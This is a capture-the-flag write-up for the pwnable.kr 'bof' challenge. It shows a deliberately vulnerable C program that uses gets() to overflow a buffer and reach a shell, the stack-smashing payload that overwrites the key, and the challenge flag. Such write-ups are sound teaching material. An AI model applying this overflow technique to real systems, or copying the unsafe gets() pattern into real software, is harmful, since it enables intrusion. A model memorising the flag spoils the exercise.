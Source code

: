 # Bof

**Description**: Basic bufferoverflow

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Source code: 
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

### Solution:

Overflow **key** var, **overflowme** string is under **key** in stack frame so it's possible

Get the number of bytes to overflow the **key** by gdb, then overwriting it with '0xcafebabe' to open the shell as the code shown above.


Payload: `payload = b'A' * 52 + b'\xbe\xba\xfe\xca'`

Flag: **daddy, I just pwned a buFFer :)**

